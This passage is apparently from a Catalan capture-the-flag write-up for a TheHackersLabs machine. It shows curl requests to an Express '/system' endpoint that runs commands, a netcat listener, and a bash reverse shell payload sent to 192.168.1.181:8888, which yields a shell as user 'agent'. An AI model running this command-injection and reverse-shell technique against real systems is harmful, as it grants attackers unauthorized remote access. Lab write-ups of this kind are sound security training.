 ```bash
```

Trobem l'endpoint `/system` al port `3001` mitjançant `POST` amb un estat `400`.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ curl http://127.0.0.1:3001/system -X POST -i
HTTP/1.1 400 Bad Request
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=utf-8
Content-Length: 82
ETag: W/"52-vyMOWoUgY3ZCkbcRG52YRwnmlLc"
Date: Sun, 21 Sep 2025 23:56:30 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"error":"Se requiere el parámetro \"command\" y parámetros \"args\" válidos."} 
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://127.0.0.1:3001/system -H "Content-Type: application/json" -d '{"command": "id"}'
{"output":"uid=1000(agent) gid=1000(agent) grupos=1000(agent),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)\n","error":""}
```

Ens posem a escoltar amb netcat al port `8888`.

```bash
nc -lvnp 8888
```

i en una altra terminal enviem la següent petició.

```bash
curl -X POST http://127.0.0.1:3001/system -H "Content-Type: application/json" -d '{"command": "bash", "args": ["-c", "/bin/bash -i >& /dev/tcp/192.168.1.181/8888 0>&1"]}'
```

Aconseguim una consola amb l'usuari `agent`.

![agent shell](../../../assets/images/cursodex/20250922_020059_image.png)

Podem llegir la flag de user.txt.

```bash
cat /home/agent/user.txt
```
